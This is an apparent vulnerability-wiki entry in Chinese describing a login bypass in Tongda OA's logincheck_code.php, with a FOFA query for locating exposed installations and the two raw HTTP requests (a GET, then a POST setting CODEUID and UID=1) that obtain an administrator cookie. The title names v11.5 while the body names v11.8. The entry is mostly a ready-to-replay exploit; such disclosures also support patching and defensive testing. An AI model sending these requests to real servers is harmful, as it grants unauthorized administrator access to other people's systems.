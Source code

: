 # 通达OA v11.5 logincheck_code.php 登陆绕过漏洞

## 漏洞描述

通达OA v11.8 logincheck_code.php存在登陆绕过漏洞，通过漏洞攻击者可以登陆系统管理员后台

## 漏洞影响

<a-checkbox checked>通达OA v11.8</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="TDXK-通达OA" </a-checkbox></br>

## 漏洞复现

登陆页面

![img](/assets/PeiQi-Wiki/img/1628306796311-4c49ac12-0e18-44ef-a0c2-c6a2d7d0f20a.png)

发送第一个请求包

```php
GET /general/login_code.php HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Accept-Encoding: gzip
```

![img](/assets/PeiQi-Wiki/img/1628306860352-5e9f9343-742d-4697-abe8-7e5c2534722d.png)

再发送第二个恶意请求

```php
POST /logincheck_code.php HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Content-Length: 56
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip

CODEUID=%7BD384F12E-A758-F44F-8A37-20E2568306A7%7D&UID=1
```

![img](/assets/PeiQi-Wiki/img/1628306918632-bb9e22e6-79b6-4fe1-8839-729fc9b6abe5.png)

获取cookie后访问管理员页面 `/general/index.php`

![img](/assets/PeiQi-Wiki/img/1628307007812-02e45309-32af-4513-a89c-00aa30fb9366.png)